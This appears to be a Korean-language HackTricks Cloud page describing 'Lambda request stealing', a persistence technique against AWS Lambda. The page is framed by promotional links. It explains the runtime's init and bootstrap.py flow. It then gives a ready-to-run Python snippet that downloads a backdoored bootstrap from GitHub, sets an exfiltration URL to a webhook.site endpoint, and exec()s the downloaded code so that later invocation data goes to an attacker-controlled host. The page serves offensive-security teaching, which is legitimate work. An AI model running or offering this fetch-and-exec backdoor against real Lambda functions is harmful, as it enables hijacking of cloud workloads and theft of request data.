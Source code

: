 # AWS - 람다 요청 도용

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWS 해킹을 제로부터 전문가까지 배우세요</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를** 팔로우하세요.
* **해킹 요령을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## 람다 플로우

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**는 컨테이너 외부의 프로세스로, **init** 프로세스에 **호출**을 보냅니다.
2. init 프로세스는 일부 흥미로운 엔드포인트를 노출하는 포트 **9001**에서 수신 대기합니다:
* **`/2018-06-01/runtime/invocation/next`** – 다음 호출 이벤트를 가져옵니다.
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 호출에 대한 핸들러 응답 반환
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 실행 오류 반환
3. **bootstrap.py**는 init 프로세스에서 호출을 받아 사용자 코드를 처리하기 위해 루프를 실행합니다 (**`/next`**).
4. 마지막으로, **bootstrap.py**는 응답을 init에게 보냅니다.

사용자 코드를 모듈로로드하는 부트스트랩은 사용자 코드에 의해 수행된 모든 코드 실행이 실제로 이 프로세스에서 발생하고 있음을 유의하십시오.

## 람다 요청 도용

이 공격의 목표는 사용자 코드가 취약한 요청을 처리하는 **`bootstrap.py`** 프로세스 내에서 악성 **`bootstrap.py`** 프로세스를 실행하도록 만드는 것입니다. 이렇게 하면 **악성 부트스트랩** 프로세스가 요청을 처리하기 위해 init 프로세스와 **대화**를 시작하면서 **합법적인** 부트스트랩이 악성 부트스트랩을 실행하고 있어 init 프로세스에 요청을 요청하지 않을 것입니다.

사용자 코드가 합법적인 **`bootstrap.py`** 프로세스에 의해 실행되고 있기 때문에 이 작업을 달성하는 것은 간단합니다. 따라서 공격자는 다음을 수행할 수 있습니다:

* 현재 호출의 가짜 결과를 init 프로세스에 **보내어** init이 부트스트랩 프로세스가 더 많은 호출을 기다리고 있다고 생각하도록합니다.
* 요청은 **`/${invoke-id}/response`**로 보내야 합니다.
* invoke-id는 합법적인 **`bootstrap.py`** 프로세스의 스택에서 [**inspect**](https://docs.python.org/3/library/inspect.html) 파이썬 모듈을 사용하여 얻을 수 있습니다 ([여기에서 제안된대로](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) 또는 **`/2018-06-01/runtime/invocation/next`**로 다시 요청하여 얻을 수 있습니다 ([여기에서 제안된대로](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* 다음 호출을 처리할 악성 **`boostrap.py`**를 실행합니다.
* 은밀성을 위해 람다 호출 매개변수를 공격자가 제어하는 C2로 보내고 그런 다음 요청을 처리할 수 있습니다.
* 이 공격에는 시스템 또는 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)에서 **`bootstrap.py`**의 원본 코드를 가져와서 악성 코드를 추가하고 현재 람다 호출에서 실행하는 것이 충분합니다.

### 공격 단계

1. **RCE** 취약점을 찾습니다.
2. **악의적인** **부트스트랩**을 생성합니다 (예: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. 악의적인 부트스트랩을 **실행**합니다.

이 작업을 쉽게 수행할 수 있습니다.
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
더 많은 정보는 [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)에서 확인하세요.

## 참고 자료

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

